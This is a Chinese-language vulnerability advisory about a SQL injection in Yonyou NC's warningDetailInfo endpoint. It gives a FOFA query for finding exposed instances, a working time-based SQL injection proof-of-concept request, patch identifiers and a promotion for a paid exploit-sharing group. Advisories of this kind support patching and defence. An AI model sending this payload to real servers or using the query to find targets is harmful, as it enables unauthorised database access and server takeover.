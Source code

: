 #  用友NC warningDetailInfo接口存在SQL注入漏洞   
冷漠安全  冷漠安全   2024-05-23 21:08  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0oABILx2icJxxajNaib5uic2Zu0vEJnFHklejTAd3txeUafxEgcvIAnRwtCgEF0JrenwZE9EWdEn9Q4w/640?wx_fmt=gif&from=appmsg "")  
  
  
**0x01 免责声明**  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
**产品介绍**  
  
用友NC warningDetailInfo接口存在SQL注入漏洞  
用友NC是由用友公司开发的一套面向大型企业和集团型企业的管理软件产品系列。这一系列产品基于全球最新的互联网技术、云计算技术和移动应用技术，旨在帮助企业创新管理模式、引领商业变革。  
  
0x03  
  
**漏洞威胁**  
  
用友NC /ebvp/infopub/warningDetailInfo接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。  
  
影响范围：  
  
NC63、NC633、NC65  
  
0x04  
  
**漏洞环境**  
  
FOFA:  
```
app="用友-UFIDA-NC"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qH1wYjRNP5YAyBLjmuGwxmugKanEv7jEiajmDXgGtVZSPib449HvpSuUfcO0ibSsZkJe14T7ep5DZ5A/640?wx_fmt=png&from=appmsg "")  
  
0x05  
  
**漏洞复现**  
  
POC  
```
GET /ebvp/infopub/warningDetailInfo?pageId=login&pkMessage=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```  
  
延时5秒  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qH1wYjRNP5YAyBLjmuGwxmveuXHOcvkG6vAdfibWx4icrXEGwCbKjP1jSIF0lwR7ehff6bzdsTqqaA/640?wx_fmt=png&from=appmsg "")  
  
  
0x06  
  
**批量脚本验证**  
  
Nuclei验证脚本已发布  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qH1wYjRNP5YAyBLjmuGwxmEIylET7WUeCXGHoA8ibGjwGpFdNicZO82NcCGQLXrnFzL2CkZkhQZ7yw/640?wx_fmt=png&from=appmsg "")  
  
0x07  
  
**修复建议**  
  
打对应补丁，重启服务，各版本补丁获取方式如下：  
  
NC63方案  
  
补丁名称：  
```
patch_63-电采-ebvpinfopubwarningDetailInfo接口sql注入问题
```  
  
补丁编码：  
```
NCM_NC6.3_000_109902_20240520_GP_202177928
```  
  
校验码：  
```
56489e159fff13d87754bc6d3ee365bc5e48f3b25b088ae329027119170df746
```  
  
NC633方案  
  
补丁名称：  
```
patch_633-电采-ebvpinfopubwarningDetailInfo接口sql注入问题
```  
  
补丁编码：  
```
NCM_NC6.33_000_109902_20240520_GP_202206096
```  
  
校验码：  
```
38aa7d38833506e51a368727dd940a75dc672776ff19b1802bcf399d3102b3e4
```  
  
NC65方案  
  
补丁名称：  
```
patch_65-电采-ebvpinfopubwarningDetailInfo接口sql注入问题
```  
  
补丁编码：  
```
NCM_NC6.5_000_109902_20240520_GP_202227506
```  
  
校验码：  
```
2e578d9f6075383ac9748517470413d7304f7fdff23dc6b57c0e75b625b52459
```  
  
  
0x08  
  
**加入我们**  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全交个朋友，限时优惠券：加入立减25星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qH1wYjRNP5YAyBLjmuGwxm2OrxdRSq7n0yrjGDEIfPib5DJ60FkD9ux5E6XM2lwMg4ToAFdU8NWGA/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0qH1wYjRNP5YAyBLjmuGwxmtpIOpJjr15C68CicszKuibuCsAogDm9LPBibuCdlxaZBge7lc99ByCA1w/640?wx_fmt=gif&from=appmsg "")  
  
  
  

